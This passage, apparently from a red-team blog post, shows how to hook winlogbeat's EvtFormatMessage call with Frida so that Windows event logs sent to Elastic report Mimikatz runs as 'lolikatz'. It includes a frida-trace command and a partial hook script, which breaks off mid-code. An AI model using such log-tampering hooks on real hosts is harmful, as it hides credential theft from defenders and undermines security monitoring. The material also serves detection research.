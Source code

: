 However this approach had several limitations, for example if HTTPS was used this would no longer work as we were intercepting the raw socket data transfer. Also, since the lumberjack protocol is a bit weird it would not be as easy to do the same against Logstash (scenario 2).

So we started digging into the winlogbeat code to see how actually the events were retrieved and place a hook somewhere else. Within the [zsyscall_windows.go](https://github.com/elastic/beats/blob/master/winlogbeat/sys/wineventlog/zsyscall_windows.go) source, it is possible to see that winlogbeat loads the `wevtapi.dll` DLL and uses the following functions:

![](477be50b7f651791fac4a1de7ffdddc4.png)

After some trial and error, we identified [EvtFormatMessage](https://docs.microsoft.com/en-us/windows/win32/api/winevt/nf-winevt-evtformatmessage) as a good candidate for hooking:

![](4154cb32a56e5aebb4d7c1c4cc01b90d.png)

The function accepts a handler to an event and returns the XML representation of it.
If we go through all the parameters, we can see that the `Buffer` parameter gets filled with the XML representation of an event:

```
Buffer

A caller-allocated buffer that will receive the formatted message string. You can set this parameter to NULL to determine the required buffer size.
```

Placing a simple hook that dumped the `Buffer` string **after** the function call showed us the formatted event, as expcted:


```
frida-trace -p 1916 -i EvtFormatMessage -X WEVTAPI.DLL
```

![](78d163eb21f361b6533a28723d9d1ea1.png)

With some debugging and a healthy dose of swearing and stackoverflow, we managed to hook the `EvtFormatMessage` message and change the results to mask Mimikatz excution with `lolikatz`:

```

/*
BOOL EvtFormatMessage(
  EVT_HANDLE   PublisherMetadata,
  EVT_HANDLE   Event,
  DWORD        MessageId,
  DWORD        ValueCount,
  PEVT_VARIANT Values,
  DWORD        Flags,
  DWORD        BufferSize,
  LPWSTR       Buffer,
  PDWORD       BufferUsed
);

*/
{

  onEnter: function (log, args, state) {
    this.ptr = args[7];
    this.size = args[6].toInt32();

  },
  onLeave: function (log, retval, state) {
    var pattern = "6d 00 69 00 6d 00 69 00 6b 00 61 00 74 00 7a 00"; //mimikatz in UTF-16
            var res = Memory.scanSync(
                this.ptr,
                this.size,
```